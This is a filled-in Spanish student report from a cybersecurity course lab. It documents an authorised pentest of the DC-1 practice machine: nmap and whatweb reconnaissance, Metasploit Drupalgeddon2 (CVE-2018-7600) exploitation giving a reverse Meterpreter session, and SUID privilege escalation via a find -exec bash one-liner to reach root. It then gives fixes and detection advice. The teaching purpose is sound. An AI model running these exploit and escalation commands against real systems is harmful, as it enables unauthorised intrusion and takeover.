

# Plantilla del informe · Laboratorio UD01 (LAB01 · DC-1)

**Módulo 5025 · Curso de Especialización en Ciberseguridad**

> **Cómo usarla.** El documentalista rellena esta plantilla **durante la sesión**, a medida que el
> equipo avanza. Sustituid lo que va entre `[corchetes]`. Al final solo queda escribir el resumen
> (apartado 1) y repasar. Un informe por equipo, entregado en Moodle.

---

## 1. Resumen (rellenar al final)

*Tres o cuatro frases para alguien sin perfil técnico: qué habéis auditado, qué habéis encontrado,
qué riesgo supone y qué tiene que hacer el cliente.*

[ ]

> **Ejemplo:** «Hemos auditado el servidor web de Drupalia. Hemos conseguido controlarlo por
> completo sin conocer ninguna contraseña porque su web usa un software sin actualizar. Un atacante
> podría robar o cambiar su información. Recomendamos actualizarlo cuanto antes.»

---

## 2. Datos y alcance (rellenar al empezar)

| Campo | Valor |
|---|---|
| Equipo | [ Equipo 4 ] |
| Operador / Investigador / Documentalista | [ Alejandro Quiñones ] / [ Raúl Jurado ] / [ Álvaro Murcia ] |
| Fecha | [ 19-11-2026] |
| IP de Kali | [10.0.1.10] |
| IP de DC-1 (objetivo) | [10.0.1.11] |
| Permitido | Solo la IP de DC-1: escaneo, análisis web, explotación y escalada |
| Prohibido | Cualquier otra IP, la red del centro, la denegación de servicio |
| ¿La IP de DC-1 está en `10.0.1.0/24`? | [Sí] |

---

## 3. Qué hemos hecho en cada fase

En cada fase, **antes de ejecutar** un comando, escribid en la columna «Qué esperamos» qué creéis
que va a pasar. Si no sabéis escribirlo, preguntad a la IA qué hace el comando antes de lanzarlo.

### Fase 1 · Reconocimiento: ¿qué máquina hay y qué servicios tiene?

> **Pregunta de ayuda para la IA:** «¿Cómo descubro qué equipos hay en mi red `10.0.1.0/24` y qué
> servicios tiene uno de ellos? Explícame qué hace cada opción del comando.»

| Comando | Qué esperamos | Qué ha salido (lo importante) | Captura |
|---|---|---|---|
| [ sudo arp - -a --interface=eth1 --localnet] | [ Identificar los dispositivos conectados a la red interna ] | [ Hemos identificado la IP de Kali (10.0.1.10) y la de DC-1 (10.0.1.11) ] | [n.º1] |
| [ sudo nmap -sV 10.0.1.11 ] | [ Una lista de puertos abiertos y los servicios que se ejecutane en ellos ] | [ Se ha encontrado los puertos SSH (22), Apache (80) y RPCbind (111). Se identifican versiones antiguas de openSSH y Apache ] | [n.º2] |

**Servicios encontrados:** [ 22 · SSH · openSSH 6.0.p1 debian]
[ 80 * HTTP * Apache HTTPD 2.2.22]
[ 111 * RPCbind * 2-4]

**¿Qué servicio parece más interesante y por qué?** [ El HTTP. Permite el acceso al servidor web, es el más interesante porque permite auditar el servidor web además de que apache utiliza una versión antigua]

> **Ejemplo de fila bien rellenada:**
>
> | Comando | Qué esperamos | Qué ha salido | Captura |
> |---|---|---|---|
> | `nmap -sV 10.0.1.5` | Ver los puertos abiertos y la versión de cada servicio | 22 SSH, 80 HTTP (Apache con Drupal 7), 111 rpcbind | 2 |

### Fase 2 · Vulnerabilidades: ¿qué tiene un fallo conocido?

> **Pregunta de ayuda para la IA:** «He encontrado este servicio y esta versión: […]. ¿Cómo busco
> si tiene vulnerabilidades conocidas? ¿Qué es un CVE?»

| Comando o fuente consultada | Qué esperamos | Qué ha salido | Captura |
|---|---|---|---|
| [ whatweb http://10.0.1.11 ] | [ Identificar las tecnologías utilizadas por el servidor web como CNS, el servidor HTTP, el lenguaje de programación y sus versiones para localizar posibles componentes vulnerables ] | [ Se ha identificado que el servidor utiliza Apache 2.2.22 sobre Debian Linux, drupal 7 como gestor de contenido y PHP 5.4.45. Tambien se ha detectado jquery y un campo de contraseña en la págia web. La web responde correctamente con el código http 200 OK ] | [n.º3] |

**Vulnerabilidad elegida (CVE) y qué permite hacer:** [ Drupalgeddon2 - CVE-2018-7600. Permite que un atacante, sin necesidad de iniciar sesión envie peticiones manipuladas al servidor para conseguir que ejecute código malicioso ]

### Fase 3 · Explotación: ¿cómo conseguimos entrar?

> **Pregunta de ayuda para la IA:** «Quiero aprovechar esta vulnerabilidad: […]. ¿Qué herramienta
> se usa y qué significa cada opción que tengo que configurar?»

| Comando | Qué esperamos | Qué ha salido | Captura |
|---|---|---|---|
| [ mfsconsole ] | [ Abrir el entorno de metasploit para buscar y utilizar el módulo correspondiente a drupalgeddon2 ] | [ Se ha iniciado correctamente el metasploit framework version 6.5.7-dev y se ha mostrado su consola interactiva, desde la que hemos podido buscar el módulo CVE-2018-7600   ] | [n.º4] |
| [ search cve:2018-7600 ] | [ Encontrar el exploit correspondiente a drupalgeddon2 ] | [Ha aparecido el módulo exploit/unix/webapp/drupal_druaplgeddon2, con clasificación Excellent y comprobación de vulnerabilidad excelente] | [n.º5] |
| [ use exploit/unix/webapp/drupal_druaplgeddon2 ] | [ Que metasploit cargue el módulo y cambie el indicador msf > a mfs (exploit/unix/webapp/drupal_druaplgeddon2) ] | [n.º6] |
| [ show options ] | [ Identificar que opciones debemos configurar para realizar la prueba contra DC-1] | [ Se observa que RHOSTS esta vacia, RPORT utiliza el puerto 80 y LHOST tiene configurado por defecto la IP 10.0.2.15] | [n.ª7.1 y n.ª7.2] |
| [ set RHOST 10.0.1.11 ] | [ Que metasploit configure como objetivo el servidor DC-1 ] | [ metasploit ha establecido correctamente 10.0.1.11 como dirección del objetivo ] | [n.º8] |
| [ set LHOST 10.0.1.10 ] | [ Que metasploit utilice la interfaz de red interna de Kali para recibir la conexión ] | [ metasploit ha establecido correctamente 10.0.1.10 como dirección del objetivo ] | [n.º9] |
| [ exploit ] | [ Ejecutar código remotamente en DC-1 y establecer una sesión meterpreter ] | [ Se ha establecido correctamente una conexión inversa entre Kali y DC-1, abriendo la sesión meterpreter numero 1 ] | [n.º10] |

**¿Con qué usuario hemos entrado?** [ La sesión meterpreter se ha establecido con el usuario www-data, que es una cuenta de servico utilizada habitualmente por Apache para ejecutar apliaciones web ]
**¿Por qué no somos administradores todavía?** [ Por que www-data es una cuenta con permisos limitados y no dispone de privilegios de administrador. Al explotar drupalgeddon2 hemos conseguido ejecutar código con los permisos del proceso del servidor web pero necesitamos realizar una escalada de privilegios para obtener el control administrativo ]

### Fase 4 · Posexplotación: ¿cómo llegamos a administrador?

> **Pregunta de ayuda para la IA:** «Tengo acceso como un usuario limitado en Linux. ¿Qué es
> escalar privilegios y qué debería revisar en el sistema?»

| Comando | Qué esperamos | Qué ha salido | Captura |
|---|---|---|---|
| [ shell ] | [ Que abra la terminal del sistema operativo ] | [ Abrir la terminal ] | [n.º11] |
| [ id ] | [ Esperamos que nos salgan losi permisos de DC-1 ] | [ Nos ha salido que el UID es 33, el GID que es el grupo principal es 23 y groups es igual a 33 significa que no pertenece a otros grupos ] | [nº12] |
| [ find / -pern -4000 -type f 2>/dev/null ] | [ Esperamos buscar en todo el sistema archivos que tengan activado el permiso SUID (Son programas que utilizan temporalmente los permisos de otro usario) ] | [ Ha mostrado 19 archivos ejecutables que tienen activado el permiso SUID en la maquina DC-1 ] | [nº13] |
| [ ls -l /usr/bin/find ] | [ Si find tiene el permiso SUID y pertenece a root ] | [ Una posible escalada de privilegios ] | [nº14] |
| [ /usr/bin/find . -exec /bin/bash -p \; -quit ] | [ Esperamos hacer escala de privilegios ] | [ Al utilizar el comando hemos puestoe comando de "whoami" y nos sale que somos root ] | [nº15] | 

**¿Qué fallo de configuración nos ha permitido escalar?** [ Asignacion incorrecta de permiso al SUID al ejecutable /usr/bin/find. Este ejecutable pertenece al usuario root y tiene activado el bit SUID, esto provoca que cuando un usuario sin privilegios como www-data ejecuta find, el programa se ejecute con los privilegios efectivos de usuario root ]
**Usuario final:** [ root ]

> Si no llegáis a esta fase, escribid hasta dónde habéis llegado y qué probaríais después. Se
> valora lo que sabéis explicar, no llegar a root.

---

## 4. Hallazgos y recomendaciones

Un hallazgo es **un fallo del servidor**, no lo que habéis hecho vosotros. Una fila por fallo.

| Fallo encontrado | Por qué existe (causa) | Gravedad | Cómo corregirlo | Cómo detectar el ataque |
|---|---|---|---|---|
| [ Se ha detectado que el ejecutable /usr/bin/find tiene activado  el permiso SUID y pertenece al usuario root. Esta configuración  permite que cualquier usuario con acceso al sistema ejecute este programa con los privilegios efectivos de su propietarios. Mediante la opción -exec de find, conseguimos iniciar una shell de Bash conservando dichos privilegios y obtener euid=0(root) desde nuestra sesión inicial como www-data ] | [ Asignaciñon del permiso SIUD a un ejecutable que permite ejecutar comandos externos, sin que exista una necesidad justificada para mantener dicho permiso ] | [Crítica] | [ Se puede corregir mediante el comando chmod u-s /usr/bin/find ] | [ Monitorizar la ejecucion de find. Detectar la ejecución de shells. Auditar los permisos SUID. Revisar los registros del sistema ] |

> **Ejemplo:**
>
> | Fallo | Causa | Gravedad | Cómo corregirlo | Cómo detectar el ataque |
> |---|---|---|---|---|
> | Drupal 7 vulnerable a *Drupalgeddon2* (CVE-2018-7600): permite ejecutar código sin contraseña | No se ha actualizado desde 2018 | Crítica | Actualizar Drupal a una versión corregida | Revisar los registros del servidor web en busca de peticiones anómalas a `/user/register` |
>
> ❌ Evitad respuestas como «Hemos entrado con Metasploit» o «Mejorar la seguridad».

---

## 5. Uso de la IA

Cada integrante añade al menos una fila con su bitácora.

| Quién | Qué preguntamos | Qué aprendimos | ¿La IA se equivocó? ¿Cómo lo comprobamos? |
|---|---|---|---|
| [ Álvaro ] | [ Cómo realizar el reconocimiento de la máquina DC-1 e interpretar los resultados del escaneo de puertos y servicios ] | [ Aprendimos a identificar los servicios activos, interpretar sus versiones y localizar posibles puntos de entrada. ] | [ Comprobamos las indicaciones ejecutando los comandos en Kali Linux y contrastando los resultados obtenidos con las respuestas de la IA. ] |
| [ Alejandro ] | [ Cómo identificar y explotar la vulnerabilidad Drupalgeddon2 mediante Metasploit ] | [ Aprendimos cómo aprovechar una vulnerabilidad de Drupal 7 para obtener acceso inicial al sistema como www-data ] | [ Algunas indicaciones necesitaron ajustes durante la ejecución. Comprobamos el acceso mediante la sesión de Meterpreter y el comando getuid. ] |
| [ Raúl ] | [ Qué es el permiso SUID, cómo identificar archivos que lo utilizan y cómo aprovechar una configuración insegura para escalar privilegios. ] | [ Aprendimos que un ejecutable propiedad de root con SUID puede permitir una escalada de privilegios. Conseguimos obtener euid=0(root) mediante /usr/bin/find. ] | [ La primera indicación para ejecutar la shell con /bin/sh -p falló porque esa shell no reconocía la opción. Lo comprobamos sustituyéndola por /bin/bash -p y verificando el resultado con id. ] |

---
